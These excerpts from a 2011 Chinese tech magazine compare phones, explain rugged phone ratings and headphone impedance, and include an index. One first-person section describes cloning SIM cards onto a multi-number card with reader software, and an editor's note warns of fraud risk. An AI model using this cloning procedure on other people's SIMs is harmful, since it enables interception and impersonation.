索尼爱立信LT15i的设计特色是轻薄路线，厚度仅有8.7毫米，打破了苹果iPhone 4所保持的厚度纪录。手机采用主流的大屏触控设计，使用了4.2英寸TFT材质电容式触摸屏幕，分辨率为480×854，效果震撼。而银色金属材质的包镶也让手机看上去更高贵。

小提示：谷歌的第二代手机还有个孪生兄弟——谷歌Nexus S i9020，该机在核心配置上和谷歌Nexus S i9023没有任何区别，主要是所用屏幕的材质不同。Nexus S i9020所用的显示屏材质是AMOLED屏幕，比兄弟Nexus S i9023的SLCD在能耗上节省30%-40%（理论数据），色彩的还原上也比SLCD更优秀（缺点是屏幕稍有颗粒感）所以Nexus S i9020在价格上更贵一些。

## 谷歌 Nexus S i9023 略微领先

由于两款手机均采用的处理器和显示芯片均不同，要看性能还得实际测试一番。小编通过“超级兔子”跑分测试软件来对这两款手机进行了整体测试，谷歌Nexus S i9023分数达到了1655分，而索尼爱立信LT15i的成绩是1532，较前者稍差一点点。两款手机在运行游戏时没有任何卡顿，风靡全球的《愤怒的小鸟》、《水果忍者》、《植物大战僵尸》都在两款机型上有着出色的体验效果，就连nVidia Targe2专属游戏的《武士2》也有上佳表现（游戏破解后单核手机也可运行）。虽然两者在跑分测试中分数具有一些差异，但在游戏体验上两者还是相差不多的。这里要说的是虽然两款手机的物理可用内存都是512MB，但是用于存储数据的空间（相当于电脑的硬盘）谷歌Nexus S i9023自带16GB（该机不支持内存卡扩展，但机身自带的16GB存储空间基本够用了），而索尼爱立信LT15i只有1GB空间若想扩展还得掏腰包。

小编语：一般而言1GB的存储空间是绝对不够用的，稍微拍一点照片放几个专辑的歌曲就没地方了。

## 屏幕显示 索爱 LT15i 占上风

索尼爱立信LT15i采用了以SONY自家平板电视上的显示技术为蓝本，在此款手机上使用名为Mobile BRAVIA ENGINE的手机图像引擎技术，结合4.2英寸Reality Display显示屏，为用户带来清晰、靓丽的视觉呈现。而相比谷歌Nexus S i9023在屏显上则是SLCD的一贯色彩感受，但SLCD在Reality Display显示屏前确实显得有些许黯淡。

小编语：若真是孪生兄弟的谷歌Nexus S i9020的屏幕没准有一拼。

## 拍照能力 LT15i 略胜一筹

谷歌Nexus S i9023配备了500万像素CMOS镜头，在弱光环境下可通过背后搭配的LED补光灯来提供辅助，最大支持2592×1944像素照片拍摄，整体效果比较优秀。手机的视频拍摄能力达到720P，在高清电视上播放很清晰。

索尼爱立信 LT15i手机摄像头配备的是810万Exmor R传感器，而在低光照条件下，手机依然可以实现高质量、高亮度的图像捕捉和HD高清视频摄录功能，其将摄像头配置在背部的顶端，旁边还配有一枚LED补光灯作为辅助作用。在拍照环节索尼爱立信LT15i明显略胜一筹，拍出的照片在色彩饱和度、图像对比度、画面真实度等方面都相对出色。

| 产品名称           | 谷歌Nexus S i9023 | 索尼爱立信LT15i |
| :----------------- | :---------------- | :-------------- |
| 处理器             | 三星 蜂鸟1GHz      | 高通 Snapdragon MSM8255 |
| 显示芯片           | SGX540             | 高通 Adreno 205 |
| 运行内存           | 16GB ROM+512MB RAM | 1024MB ROM+512MB RAM |
| 屏幕规格           | 4.0英寸 480×800像素 | 4.2英寸 480×854像素 |
| 屏幕材质           | SLCD               | Reality Display显示屏 |
| 摄像头             | 500万像素          | 810万像素       |
| 操作系统           | Android 2.3        | Android 2.3     |
| 机身三围           | 124.7mm×63mm×11.5mm | 125mm×63mm×10.9mm |
| 机身重量           | 140克              | 117克           |
| 最新售价           | 2100元             | 2150元          |

总结：通过对性能、屏幕、拍照等方面的对比之后，相信朋友们对于这两款手机都有了一定的了解。谷歌Nexus S i9023与索尼爱立信 LT15i在单核处理器机型中的表现相当不错了，但是侧重点有些不同。注重系统升级的朋友不妨选择谷歌Nexus S i9023，而比较关心拍照能力的朋友也许索尼爱立信 LT15i更适合一些。

## 马大哈不用愁 看我手机也三防

这天飞叔愁眉不展的来到单位半晌不语，遂众编问之知其故，可怜的飞叔刚买的手机没用几天不小心掉在家里水盆中马上拾起、关机、晾干还是不行，拿去售后说是人为故障不在保修范围，飞叔愤然起身曰：我以后就买三防手机了。

随着手机的机能越来越强其集成度也越来越高，不注意的情况下磕磕碰碰极容易出现故障，对于平时马大哈的同学，或是非常热衷户外活动的人士，配备一部强大的三防手机还是很有必要的。目前市面上的三防手机均具备防尘、防水、防震等功能，价格也从高到低不等，今天小编就给大家说一说购买三防手机时要知道些什么。

## 轻度三防 马大哈首选

对于想要购买三防手机的用户，首先要确定自己需要的是哪一类型的三防，就好像购买电视机的尺寸要取决于摆放房间的大小，而不是你的荷包（扯远了）。一般用户使用手机不会有太多机会让它禁受考验，但是偶然的意外也是致命的，对于这类用户没必要购买防护很严密的三防手机，毕竟外观做的不够美观失去了手机的时尚意义。

市场上所售的三防手机首推摩托罗拉DEFY ME525（+），摩托罗拉DEFY的宣传是拥有IP67级（下文有具体表格查询）的防水，但很戏剧性的是，很多经销商甚至是摩托罗拉公司对于个人购买手机后进水是不保修的：这就是说，厂商不鼓励用户随意测试手机的防水性能，更深层的意义是无法保证所有手机都是完全防水的。虽然在评测室里的手机都能禁受住各种测试，但测试毕竟不频繁，不能保证日后每次都能脱险，而且还有一点很重要，像摩托罗拉DEFY这种大屏幕和纤细的机身的三防手机一般是无法抵抗外力碾压和跌落的，三防性能和广告宣传有些折扣。

说到这里不得不提编辑部老范在今年上半年的时候购买了“戴妃”，由于太相信其宣称的屏幕抗划伤能力，就没有给液晶屏幕贴膜。在一次和钥匙亲密接触之后手机屏幕有了一道深沟，老范苦笑道：“抗划伤到底有没有个标准，要不是相信广告的宣传也不至于弄伤爱机，早知如此还不如买个不具备抗划伤能力的手机老老实实贴个膜来的保险……”在这里笔者要说，像摩托罗拉DEFY这种轻度三防手机，不如把它看待成一款顺带防护功能的大屏安卓智能手机，这对于马大哈的同学足够了。

**小提示：** 防震不等于防摔，其实防震在目前国际标准中，并没有一个精准详细的介绍。尤其值得一提的是，很多用户将防震理解成了防摔，这一点是存在误区的。而就算手机防震一般也都有“轻微”这样的修饰词。所以就算买了三防手机也不要以为怎么摔打都没事。

**题外话：** 不过，若是自己的手机不带有防震功能可怎么办？别急，目前手机的防护套厂商一点也不比手机厂商少。我们可以通过为手机加外套的方式加固手机的装甲。下图就是小编我的手机护盾，对于爱机保护作用不言而喻，对于使用硬壳还是软壳的问题，其实软套更能缓冲外界的冲击力，而硬壳贴近手机的一侧若是没有做防划处理（一般采用防滑橡胶类图层）有可能本身就划伤手机外壳，故不推荐购买水晶壳之类的保护壳。


## CFan推荐产品

**三星S5690**
小编点评：三星S5690这款手机的机身达到了IP67标准，这就意味着这款手机在防尘方面比较出色，可以防止一般灰尘进入手机内部，在防水方面也可以保证能够在一米深的水中正常工作一小段时间，防护性能还不错。三星S5690手机的3.65英寸屏幕表面覆盖了一层防刮的Gorilla玻璃，防护可以说是比较到位了，用户不用担心手机一沾水就坏或是一摔就坏。



## 摩托罗拉ME525+

小编点评：摩托罗拉ME525+在三防的性能上表现中规中矩，应付日常生活中的磕碰、积灰，甚至有水溅的情况还是绰绰有余。但绝对不要进行严酷的测试，手机屏幕虽然号称抗划伤但也只是常规而言（具体教训参看上文老范的例子），如果把摩托罗拉ME525+看做一款高性能Android智能系统并附带一定的三防功能就再合适不过了。



## 户外工作还需重装甲护航

上面介绍了轻度三防手机，对于室内使用较多的朋友已是足够。但户外运动登山时的掉落、游泳时的经常性接触液体、高粉尘作业时接打电话进灰等等就需要一些三防能力卓越的手机了。对于这类手机网友们亲切的称为“军工三防手机”。这种重装甲三防手机在边角位置都有加固，边角位置的大号螺栓也显示着抗摔打能力的不凡。而在使用频繁的按钮处军工级三防手机采用了一体化的橡胶覆盖，这样的设计从根本上杜绝了进水、进尘土的可能。我们用户在使用时大可以挂在胸前去游泳。例如泰克飞石丛林J1这款手机，可以说是禁蹬又禁踹、禁洗又禁晒。户外运动较多或从事高危作业的朋友可以关注一下。



不过这类手机的缺点是三防功能大于手机本身性能，很多朋友抱怨过这类三防手机拍照性能一般，游戏少等弊病。确实军工级三防手机在设计之初就倾向于应对严苛的使用环境而非娱乐。我们用户在选购时应该有所权衡。



**小提示：** 常规不具三防能力的手机容易进尘

## CFan推荐产品

**泰克飞石 丛林J1**
小编点评：泰克飞石旗下丛林J1是一款国产的三防手机，整机采用高强度橡胶材质，在丰富产品质感的同时，又对产品在受外力冲击时起到保护作用。该机全密封锻造的工艺制作，能达到IP-5级防尘标准，可有效防止灰尘对手机造成的各种损害及影响。至于防水性能，可以支持IP67级防水、IP67级防尘以及抗碾压防震性能。此外，丛林J1不仅在三防方面表现出色，同时还内置有SOS求救、计步器、高度计、指南针、气压计等功能，在野外环境下同样拥有不错的实用性。



**乐目LM810**
小编点评：乐目LM810是目前国内唯一一款经过了水淋、振动、风沙、灰尘和极端环境考验的军民两用手机。在扩展性和应用工具方面都做到手机应有的性能，同时还增加了贴心指南针、温度、高度、气压和手电筒、激光束求救定位功能，还配备了在没有交流电源情况下，手摇充电器的永不断电充电功能，是军人和广大户外运动爱好者不可多得的好帮手。其狂野的外形和充满活力的设计，完全合乎中国军人、“驴友”和户外工作、运动人群的需求。并且LM810达到国际IPX5密封标准，能抗雨水、雾气及有害粉尘侵入。



**小提示：** 现在不少高端智能手机由于没有了物理按键，从而在气密性上已经达到一定的防尘标准。我们只需在其主要接口做好防护即可解决微尘进入问题。例如，iPhone 4手机，只要把上方耳机和下方的数据充电接口加上防护隔塞，其防尘、防水性能不亚于初级三防手机。



## 附表：三防手机IP标准明细

| 第一个IP防尘定义 | 第二个IP防水定义 |
| :--------------- | :--------------- |
| 0 没有保护       | 没有保护         |
| 1 防止大的固体侵入 | 水滴滴入到外壳无影响 |
| 2 防止中等大小的固体侵入 | 当外壳倾斜到15度时，水滴滴入到外壳无影响 |
| 3 防止小固体进入侵入 | 水或雨水从60度角落到外壳上无影响 |
| 4 防止物体大于1mm的固体进入 | 液体由任何方向泼到外壳没有伤害影响 |
| 5 防止有害的粉尘堆积 | 用水冲洗无任何伤害 |
| 6 完全防止粉尘进入 | 可用于船舱内的环境 |
| 7 | 可于短时间内耐浸水 |

## 通话上网两不愁 看我多合一SIM卡显神威

说起来笔者有个前几年留下的手机上网包月卡，还有一个专门打电话用的卡，每次想上网了还得关机，换卡麻烦死了。不想有如此麻烦，除了用双卡双待手机就没有别的办法了吗，这天的偶遇解决了我长久以来的困扰。

有一次和朋友去电脑市场，偶然在一个摊位看到一个零散包装的SIM卡和一个类似U盘形状的东东封装在一起，有点不解就询问了一下店家。老板说，这个叫“手机多合一号码卡”，可以把好几个手机号码储存到这一个SIM卡中，你想用哪个就可以用哪个。笔者听到之后眼睛都开始放光了，这不就是我多年来急需的宝贝吗？竟然忘了砍价，直接买下了一个12合1的卡（有违笔者一贯的购买作风）。

把卡拿回家后打开观视，手机卡本身没什么特殊，那个形似U盘的东西原来是SIM读卡器，我没说错，是用来在电脑上读取SIM卡的装置。读卡器上边有个开关，对应两种不同读取速度模式，要选择时需在未连接USB下手动切换。打开随卡附送的光盘，查看说明文件，文字描述意外的简略呢。笔者小心翼翼地按照说明上边的步骤，一步步操作下来真的成功了，下面笔者简略介绍一下。

首先，安装光盘里的驱动程序（下一步下一步的很简单），把自己手机的SIM卡插在读卡器上插入电脑的USB接口，电脑识别完硬件后读卡器的灯会变成绿色，在桌面会生成两个图标，一个叫“SIM Scanner”，另一个叫“SIM Editor”，先打开“SIM Scanner”弹出操作界面，之前会有警告：有些SIM卡设置了读写限制，使用高速读写有可能是SIM卡锁死，是否使用高速读取？毕竟笔者不知道自己的卡是否有读写限制，果断选择了“否”（保险起见还是不要选是了）……选好之后，要选定是哪个USB接口（这个可以在设备管理器中查到）和选择读取的速率，有19200 bps 7.14MHz和9600 bps 3.57MHz两种可选，这个要对应之前提到的USB读卡器上选定的速度开关，不要怕选错了，旁边的测试按钮可以帮助使用者进一步确认。

上述操作完成后就可以点击然后解码了，下面的强制搜索笔者没有选，不过估计要是搜索失败了再选不迟，这时读卡器的绿灯变成闪烁的红色，大约经过了80分钟，笔者上网用的那个SIM卡读取完成，生成一个记事本文件，里边承载着这张SIM卡数据信息，软件提示可以在本地磁盘存储成一个.dat文件，下次就可以直接获取该SIM卡信息，存储后拔下了读卡器。笔者迫不及待地把多合一SIM拿出来，依旧用这个读卡器在电脑上使用（这时的速率选择开关无所谓），此时打开“SIM Editor”图标，会显示这个SIM卡的预留信息，果然有12个存档空位，把刚才生成的记事本信息填好，10秒钟不到弹出窗口表示写入完成（相比读取的时间，这个好快）。

怀着忐忑的心情把这个多合一SIM卡装入手机，开机，搜索网络，真的如那张原卡一样，上网，电话功能别无二致（大喜）。赶紧把笔者第二个专门负责联系的卡照方抓药地读取，不过这次的时间好漫长，整整9个小时，把这个SIM卡信息写入多合一卡中，可如何切换呢？原来在手机系统菜单下会多出一个“SIM卡应用”图标（经笔者用老妈的古董手机测试，非智能手机也有这个图标可选），在这个菜单下可任意选择写入过的号码，中途不必关机，选择后自动切换网络十分便捷。笔者马上反应出另一个问题，同一个号码两个手机都在用，会不会争抢信号呢？

笔者马上用两部手机同时打开一个号码（一个用原卡，一个用多合一SIM卡），用家里座机和父母的手机打过来测试，发现同时在线的话，两部手机信号网络均正常，不会有争抢之势。但，电话和短信会优先发送给原卡一方的手机，多合一SIM卡不会接收到。拿起多合一的手机打电话发信息都是可以正常操作的，这个很方便，可以作为备用卡使用。

第二天笔者把这个好玩意儿展示给了老在一起玩的一个哥们儿，他也照方抓药地想把自己的手机卡复制一下，结果失败了，后来找到老板询问才得知，C网的SIM要买另一种强力卡，买下之后回家读取成功，看来买这个卡时最好询问一下卖家自己的卡能否使用。

## 小提示：

这种多合一SIM卡有别于双卡双待手机，即使使用其中一个号码时其他号码则保持关机状态，并不能同时待机。

## 编者按：

这种多合一SIM卡确实能给一些经常两地出差或像文章作者那样需上网切换使用的朋友提供很大方便，但无论读取SIM卡还是写入SIM卡都有一定风险，在操作之前最好备份一下自己的联系人信息等。不过小编在此郑重提醒各位读者朋友，鉴于此类产品在市场上可以轻易买到，还是不要把自己的手机连同SIM卡借给不太熟识的人使用，维修手机的话别忘了把SIM卡取下来，以免SIM卡被复制后的麻烦（丢失话费事小，个人信息被拦截，冒名甚至实施诈骗都有可能）。

（文/一页书）

## 好耳机还要推力够 购买高阻抗耳机要注意

很多朋友在选购耳机时被其常规参数弄的晕头转向，也有很多朋友来信询问高阻抗耳机好还是低阻抗耳机好，就算是内行的老鸟也难以把这些搞的很清楚。

我们的惯性思维是购买产品时要看它的参数，阻抗在耳机的参数列表里算是非常抢眼的一个了，那么它数值的高低代表什么呢？一般来说播放源一定的情况下，阻抗越小，耳机就越容易被驱动，越容易出声，而阻抗大的耳机对播放源来说也是一种挑战。播放源能否驱动耳机的动力一般称之为推力，我们不可能要求一些体型小巧的随身听设备能提供多大推力，如果我们使用一款耳机明显出现音质浑浊、高音塌陷、声场不足的感觉多半是播放源推力不够造成的。所以我们购买耳机时，首先应该看自己的播放设备的推力大概有多少，再看要买的耳机阻抗有多大。

### 我的耳机能否被推动

一日，笔者一个朋友沮丧地说起他在专卖店买到了一款质量不合格的耳机，经测试无故障结果不予更换。笔者把耳机接到自己手机试听，未发现什么不正常，仔细询问之下找到了问题的根由，原来他买了一款阻抗64Ω的耳机，所用播放源是个袖珍型MP3，出现了声音浑浊、三频分布不彻底、音量不够的现象，这明显是推力不够造成的小马拉大车。

### 小提示：

耳机的阻抗是其交流阻抗的简称，单位为欧姆（Ω）。

### 什么是推力？

简而言之就是最大不失真输出功率。通常而言一个播放源的推力是固定的，与音量大小无关，音量调大，变大的只是输出功率。

一般而言，小型便携的MP3驱动阻抗为16Ω的耳机没有任何问题（再小的MP3也不怕），君不见SONY的MP3搭配得最多的就是阻抗16Ω的耳机（SONY MDR838成为一时的经典也是由于这样的搭配）。笔者自己的MP3是三星YP-115，使用一节AAA电池，搭配森海塞尔 MX500在声音感觉上没有出现推力不足，看来驱动阻抗32Ω的耳机也还好，再高的阻抗就有点推不动了。所以我们在购买耳机时还要看自己的播放设备够不够给力，细心聆听的老鸟们会发现阻抗的大小不是一成不变的，它会随着音频的高低上下起伏。

### 阻抗越大音质越好吗

耳机的阻抗是随其所重放的音频信号的频率而改变的，一般耳机阻抗在低频最大，这个很好理解，低频声场要把耳机振膜全都发动起来才有重低音的感觉，因此所用的播放源对低频的衰减更明显，所以我们购买的耳机若是出现听重低音乐曲时的推力不足，也就代表了这个播放源的最大不失真临界点了，以笔者经验，我们使用的稍大型播放源（iPod、手机、MP4）在驱动32~50Ω阻抗耳机时毫无压力，在购买耳机时只要注意它的阻抗大致是这个范围就好了。

### 傻博士：

对大多数耳机而言，其他物理元件不变的情况下增大输出阻抗会使声音更加雄浑，这也是很多高端耳机阻抗大的原因。但阻抗越大并不代表耳机音质就会越好，两者关系以高中数学语言来讲叫做必要不充分。反过来看，低阻抗耳机的优点是发声效率高，但过低的阻抗对性能发挥是不利的。因为在相同情况下，阻抗越低，所需播放源的灵敏度控制越强。用很小的电流就把全部耳机单元都驱动了起来，耳机音质的下潜会显得空间不足。

不同阻抗的耳机主要用于不同的场合，有些专业耳机阻抗甚至会在200欧姆以上，这是为了与专业机上的耳机插口匹配，此时如果使用低阻抗耳机，一定要先把音量调低再插上耳机，再一点点把音量调上去，防止耳机过载将耳机烧坏或是音圈变形错位造成破音。而对于各种便携式随身听，例如CD、MD或MP3，一般会使用低阻抗耳机（通常都在64Ω以下）。当然，阻抗越高的耳机搭配输出功率大的播放源时声音效果更好。

细心的朋友会发现，当你把耳机插头插入打开电源的耳放时，会听到电流冲击的噪声。在相同的电流冲击中高阻耳机的噪声相对较小，当出现某些极端和意外状况时，比如放大器故障、音量旋钮突然开大等，高阻耳机有更好的耐受性，不会被烧毁。所以，经常在随身听和电脑上用一副耳机的朋友选购高阻抗耳机还是很保险的。

### 阻抗大了怎么办

如果手里正好有个阻抗大的耳机是不是就没有什么办法用到MP3这类小推力设备了呢？当然也不是全然没有办法，选购一款耳机功率放大器（耳放）就解决问题啦。当然耳机的功放便携式的有很多可选，就像笔者经常使用的节奏坦克耳放，把它加在播放设备与耳机之间，起到一个中间加油站的作用，音量大小变化不大的同时高阻抗耳机音感层次明显分离清楚了，在大街上看到的头戴大型耳麦的“潮人”们，如果不搭配这类功放，很难想象他们有什么样的听觉享受。

### 小提示：

耳放是把音频的推力放大，无形中也会把电流噪声放大一部分，所以耳放的使用还需谨慎。

## 2011年（下）关键词检索

| 页码 | 标题 | 关键词 | 页码 | 标题 | 关键词 |
|---|---|---|---|---|---|
| 370 | 1GHz对决 HTC Incredible S VS索尼爱立信LT15i | 1GHz | 141 | 去除QQ群广告 我有妙招 | QQ广告 |
| 138 | 附件上传受限 360压缩帮你应对 | 360压缩 | 193 | 妙用资源管理器 轻松查QQ好友IP | QQ好友IP |
| 374 | 3D对决 LG Optimus 3D VS 夏普 SH8158U | 3D | 108 | 绕过问题添加QQ好友 | QQ好友添加 |
| 355 | 功能更齐全 价格也厚道 3D显示新品设备推荐 | 3D显示设备 | 122 | 管理QQ好友也用批处理 | QQ好友添加 |
| 256 | 平面变立体 3D游戏大升级（上） | 3D游戏 | 107 | “QQ交谈”入驻空间显个性 | QQ交谈 |
| 256 | 3D游戏大升级（下） | 3D游戏 | 126 | 将QQ截图直接分享到微博 | QQ截图 |
| 105 | 3G流量超标 请管家帮忙 | 3G流量 | 94 | 绑定MSN好友 QQ空间更新他也知 | QQ空间更新 |
| 341 | 1.5GHz的平板新方案 冷静看待“A10”处理器 | A10处理器 | 124 | 分享访问受限的QQ空间日志 | QQ空间日志 |
| 331 | ACER Aspire 4830TG入手体验 | ACER Aspire | 105 | 发出我们的声音 QQ任意铃声自设 | QQ铃声 |
| 199 | 锦上添花 为Aero特效添加彩虹动画 | Aero特效 | 85 | QQ群成员提取 既要免费也要简单 | QQ群 |
| 337 | APU家族再添新成员 AMD E450值不值得期待 | AMD E450 | 136 | QQ群人数已满 巧借微群来扩容 | QQ群扩容 |
| 362 | 推倒重来的AMD推土机 | AMD推土机 | 132 | QQ隐藏无法完全弹出 原是显卡驱动惹的祸 | QQ隐藏 |
| 25 | 超越iPad Android 3.0我看行 | Android | 87 | 用QQ影音截取音视频更方便 | QQ影音 |
| 177 | 放心用手机 Android手机安全软件评测 | Android | 118 | RSS资源寻找 用上专业搜索引擎 | RSS资源 |
| 327 | Android 3.1来了! 华硕Eee Pad Transformer TF101体验 | Android 3.1 | 348 | Sandy Bridge-E顶级平台抢先展望 | Sandy Bridge-E |
| 369 | 智能门槛也不高 千元内也Android手机推荐 | Android手机 | 281 | 电话视频远胜Facetime Skype手机客户端全攻略 | Skype |
| 289 | Android天气通儿童纪念版 | Android天气通 | 325 | 视频转码速度慢 快找SNB核芯显卡来帮忙 | SNB核芯显卡 |
| 324 | APU和Atom谁更强? ACER A0522“给力”体验 | APU | 323 | SONY VAIO SD的7门秘技 | SONY VAIO SD |
| 325 | 大号APU 华硕K43BY笔记本体验 | APU | 290 | Sports tracker | Sports tracker |
| 354 | AMD APU主板选购必看 | APU主板 | 375 | 会扭脖子的晃晃钟Swing Clocks | Swing Clocks |
| 364 | 粗、细、双线能画3种线条的记号笔Beetle Tip | Beetle Tip | 197 | 无所畏惧 手杀TDSS病毒 | TDSS病毒 |
| 84 | Chrome的同步和书签转换 | Chrome | 364 | 迪斯尼创意USB耳朵音箱 | USB耳朵音箱 |
| 115 | Chrome鸡肋不再 下载有神器相助 | Chrome | 355 | 硬盘多得发愁 买个USB 3.0底座吧 | USB硬盘底座 |
| 200 | 网站防注入别忘了cookie注入 | Cookie注入 | 129 | U盘自动备份 | U盘备份 |
| 170 | Cool Edit 轻松搞定音乐事 | CoolEdit | 168 | U盘触发器 让软件自动运行 | U盘触发器 |
| 113 | 用CorelDRAW的快捷方法 | CorelDRAW | 133 | U盘盘符不显示的应对方法 | U盘盘符 |
| 374 | 蹼手游泳手套Darkfin Gloves | Darkfin Gloves | 101 | 带个U盘安装维护系统 | U盘维护 |
| 255 | DJ效果自己做 人人都能High起来 | DJ效果 | 163 | 巧用VBA建立学生成绩通知单 | VBA |
| 124 | dll错误不用怕 轻轻松松来修复 | dll错误 | 88 | 读取VirtualPC中资源的另类办法 | VirtualPC |
| 139 | 紧急情况“空手”看docx文档 | docx查看 | 357 | 你需要WDS无线中继 | WDS无线中继 |
| 178 | EmEditor 重复文字输入更快 | EmEditor | 290 | Weico微博客户端 | Weico微博 |
| 152 | EPUB 我悄悄地走近你 | EPUB | 158 | U盘直接跑精简版Win7 | Win7 |
| 51 | 学做专业EXCEL图表 | Excel图表 | 191 | 保障Win7安全 我有“瑞士军刀” | Win7安全 |
| 289 | ezPDF Reader | ezPDF Reader | 19 | Windows 8亮点揭秘 | Windows 8 |
| 168 | Flash特效也能重复应用 | Flash特效 | 196 | 为Windows解锁 我只需动动嘴 | Windows解锁 |
| 114 | 让Foxmail提醒您别忘了加上附件 | Foxmail | 162 | 给你的WinRAR加把锁 | WinRAR加锁 |
| 93 | GIF先优化 聊天不出红叉叉 | GIF优化 | 291 | 爱祝福 | 爱祝福 |
| 364 | 再次迎来世界瞩目 苹果系统升级iOS5 | iOS5 | 290 | 安全管家 | 安全管家 |
| 329 | 更小的iPad 可能吗？ | iPad | 190 | Win7为孩子打造安全的上网环境 | 安全上网 |
| 286 | 开辟通往iPad2的文件直传“通道” | iPad2 | 214 | 改造WinRE 从隐藏分区安装Win7 | 安装Win7 |
| 371 | HandStand 2单手倒立iPad2保护套 | iPad2保护套 | 225 | Android工程师如何炼成 | 安卓工程师 |
| 66 | 狙击“苹果” iPhone 4S“杀手”大点兵 | iPhone | 82 | 简单快捷为Win7资源管理器添加常用按钮 | 按钮 |
| 375 | 难以再次改变世界的iPhone 4S | iPhone 4S | 122 | 调用非默认搜索引擎 傲游快捷字帮您 | 傲游 |
| 377 | iPhone 4S阻击战之群雄争霸 | iPhone 4S | 124 | 傲游3入驻移动硬盘和U盘 | 傲游 |
| 259 | 盛夏出游季 随手美化iPhone照 | iPhone照 | 366 | 电人奥迪车钥匙 | 奥迪车钥匙 |
| 118 | 巧查内网IP 从此不再冲突 | IP冲突 | 246 | 走近百度的企业文化 | 百度 |
| 129 | 雁过不留痕 IP地址不泄露 | IP地址 | 111 | 百度文库下载百分百 不浪费财富值 | 百度文库 |
| 79 | 也谈本本的IP更换 | IP更换 | 224 | 版面美观 还需注意细微处 | 版面 |
| 101 | 工作奔波 IP无缝轻松切换 | IP切换 | 102 | 给我的设计加上版权保护 | 版权保护 |
| 360 | 钟声再临 Ivy Bridge处理器格局前瞻 | Ivy Bridge | 225 | 文字快速变图片 版权保护有高招 | 版权保护 |
| 291 | KK聊天 | KK聊天 | 115 | 偷梁换柱 没绑定的电脑也能上网 | 绑定 |
| 205 | 让Windows 7也能搜索PDF文档 | PDF文档 | 329 | 系统保留分区惹人厌 | 保留分区 |
| 202 | 动动手 让PE更强大 | PE | 233 | 公平竞赛 保密很重要 | 保密 |
| 196 | 空间不浪费 为隐藏分区添加PE维护系统 | PE维护系统 | 294 | 还在买报纸 太浪费了 | 报纸 |
| 374 | Pillow Remote Control | Pillow | 85 | 百度文库下载 抱米花下载更简单 | 抱米花 |
| 104 | 检查袭来 PPT不用手忙脚乱 | PPT | 133 | 服务器当机 缓存里找备份 | 备份 |
| 101 | 课上PPT课下看 山寨手机也玩转 | PPT课件 | 82 | 杀鸡焉用牛刀 菜鸟也能备份聊天记录 | 备份聊天记录 |
| 87 | 提取PPT文字更易分享 | PPT文字提取 | 231 | 幻灯片备注快速批量删除 | 备注 |
| 122 | 用PS的快捷方法 | PS |  |  |# 关键词检索

| 页码 | 文章名称 | 关键词 | 页码 | 文章名称 | 关键词 |
|------|----------|--------|------|----------|--------|
| 363 | 远离杂乱机箱 普通机箱也玩背板布线 | 背板布线 | 113 | 影院在放什么电影提前知 | 电影预告 |
| 265 | 中秋佳节 你也能奔月 | 奔月 | 345 | 夏天攒机 电源选择有学问 | 电源 |
| 337 | 新手优化四步走 让你的笔记本运行如飞 | 笔记本 | 35 | 四款主流电子书体验手记 | 电子书 |
| 338 | 不是谁都适合你！合理看待笔记本的“潮流趋势” | 笔记本 | 283 | 告别阅读器！自制安卓电子书 | 电子书 |
| 333 | 雾里探花 什么样的笔记本最适合你 | 笔记本选购 | 122 | 电子小报巧存图片放网上 | 电子小报 |
| 332 | 有容乃大 笔记本硬盘如何选? | 笔记本硬盘 | 277 | 电子优惠券 要省钱更要环保 | 电子优惠券 |
| 258 | 告别呆板的毕业合影 | 毕业合影 | 150 | 球赛不能耽误 电脑定时录制 | 定时录制 |
| 137 | 禁止边缘最大化简单方法 | 边缘最大化 | 271 | 让静止的遥控汽车奔驰起来 | 动感 |
| 183 | 边缘最大化功能 请别自作聪明 | 边缘最大化 | 259 | 简单几步 画出动态的马儿 | 动态画 |
| 292 | 照相就变脸 | 变脸 | 185 | 移动复制也玩 加速和断点续传 | 断点续传 |
| 90 | 用PPT自定义动画实现变形效果 | 变形动画 | 277 | 懒得运动？让手机MM陪你锻炼 | 锻炼 |
| 238 | 何需FLASH PPT轻松制作变形动画 | 变形动画 | 91 | 没装Windows 7 聊天照用多标签 | 多标签 |
| 236 | 表格做助手 评委不难当 | 表格 | 197 | 打造炫目的多操作系统电脑平台 | 多操作系统 |
| 243 | 做“活”你的Word表格 | 表格 | 198 | 多窗口资源管理器 文件管理更便捷 | 多窗口 |
| 91 | QQ表情真不少 导入飞信才叫好 | 表情导入 | 161 | 免费打造个性化多功能键盘 | 多功能键盘 |
| 250 | 让常用任务入驻Word菜单 | 菜单 | 379 | 通话上网两不愁 看我多合一SIM卡显神威 | 多合一SIM卡 |
| 373 | 自家侧滑全键盘对决 HTC S610d VS HTC Desire Z | 侧滑全键盘 | 141 | 单屏多任务 操作更轻松 | 多任务 |
| 288 | 手机当直尺 测量工具随身装 | 测量工具 | 270 | 巧妙打造彩色多重曝光效果 | 多重曝光 |
| 81 | 小小插件 大大用处 | 插件 | 372 | 俄罗斯方块即时贴 BLOCK STICKY NOTES | 俄罗斯方块 |
| 84 | 插入文档除了合并还能破解 | 插入文档 | 369 | 别拿耳机不当干部——耳机保养面面观 | 耳机保养 |
| 345 | 大万用插座大限已至 购买需注意 | 插座 | 366 | 机器人耳机分线器 | 耳机分线器 |
| 294 | 查话费？和10086说拜拜 | 查话费 | 135 | 多微博如何同时发布信息 | 发布信息 |
| 88 | 何劳他人 办公用品查询Excel就行 | 查询 | 117 | 多微博账号不用忙 "发威"帮你解忧肠 | 发威 |
| 133 | 查询快递 只需发条微博 | 查询快递 | 294 | 发微博？动口不动手 | 发微博 |
| 133 | 长网址变短 微博来帮你 | 长网址 | 289 | 翻客 | 翻客 |
| 290 | 超级指纹扫描仪 | 超级指纹扫描仪 | 284 | 偷流量？没门！“防火墙”让你安心联网 | 防火墙 |
| 366 | Motz超迷你播放器 | 超迷你播放器 | 373 | 半球仿真监视器 | 仿真监视器 |
| 326 | 合理超频 让你的显卡变身“超级赛亚人” | 超频 | 114 | 手机用联通号也要飞信 | 飞信 |
| 291 | 超频降频随心所欲 | 超频降频 | 275 | 巧用微观肥皂泡：拍出神秘外太空照 | 肥皂泡 |
| 290 | 超炫天气闹钟专业版 | 超炫天气闹钟 | 138 | 邮件大小超标 Foxmail替你分割 | 分割邮件 |
| 86 | 别让他看别人的成绩另有简易法 | 成绩保密 | 95 | 节省纸张 表格分栏双面打 | 分栏打印 |
| 100 | 别人的成绩你别看 | 成绩保密 | 89 | 分类汇总与打印 条件函数全搞定 | 分类汇总 |
| 183 | 系统程序崩溃 信息轻松查询 | 程序崩溃 | 84 | 浏览网站 分屏更简单 | 分屏 |
